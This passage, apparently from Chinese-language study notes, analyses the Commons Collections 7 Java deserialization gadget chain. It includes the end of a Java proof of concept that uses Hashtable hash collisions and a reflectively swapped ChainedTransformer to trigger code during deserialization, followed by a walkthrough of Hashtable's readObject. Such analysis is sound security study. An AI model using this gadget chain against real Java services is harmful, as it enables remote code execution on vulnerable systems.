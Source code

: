 ```

        ChainedTransformer chain = new ChainedTransformer(faketransformers);

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map LazyMap1 = LazyMap.decorate(innerMap1, chain);
        Map LazyMap2 = LazyMap.decorate(innerMap2, chain);

        LazyMap1.put("yy", 1);
        LazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(LazyMap1, 1);
        hashtable.put(LazyMap2, 2);

        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chain, transformers);

        LazyMap2.remove("yy");
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC7.bin"));
        os.writeObject(hashtable);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC7.bin"));
        fos.readObject();
    }
}
```

后半部分链子依然是不变的,重新去找触发LazyMap.get的点

这次是从Hashtable入手,在Hashtable重写的readObject结尾处的for循环调用了reconstitutionPut方法

```
for (; elements > 0; elements--) {
    @SuppressWarnings("unchecked")
        K key = (K)s.readObject();
    @SuppressWarnings("unchecked")
        V value = (V)s.readObject();
    // sync is eliminated for performance
    reconstitutionPut(table, key, value);
}
```

K和V都是从反序列化流里面读出来的,可以通过put方法进行控制

跟进reconstitutionPut方法

![image-20220129103008837](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220129103008837.png)

看到了利用链写的equals方法,但是for循环的循环条件是`e!=null`,这里并不满足,此时的`tab[index]`为空

![image-20220129103138668](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220129103138668.png)
